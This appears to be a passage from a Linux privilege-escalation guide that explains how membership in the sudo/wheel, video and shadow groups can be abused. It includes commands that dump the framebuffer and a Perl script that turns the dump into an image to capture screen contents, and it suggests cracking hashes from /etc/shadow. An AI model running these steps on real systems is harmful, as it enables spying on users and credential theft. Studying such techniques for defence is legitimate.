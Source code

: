 ### Sudo/Admin & Wheel
The sudo/admin (in Debian derivatives) or wheel (in CentOS/RedHat derivatives) group is a special user group used to control access to the su or sudo commands, which allow users to either execute commands or masquerade as another user (usually the super user).

### Video
The video group can be used locally to give a set of users access to a video device or to the screen output.

This could be exploited by taking a screenshot of the current screen output and gathering any private information such as user passwords or hashes.

The following commands can be used to grab the raw output of the current screen and gather the current resolution settings (height and width):

````
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
````

The following perl script can then be used to convert the .raw file to an actual image 

````
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
````

### Shadow
The shadow group is required for the Linux shadow functionality to work, which is used to administer user passwords.

It is supposed to be accessible by the root user only, but because multiple users may be in the root group, the shadow group was created.

Since users in this group have access to view the /etc/shadow file, this can be exploited by cracking password hashes found in it.
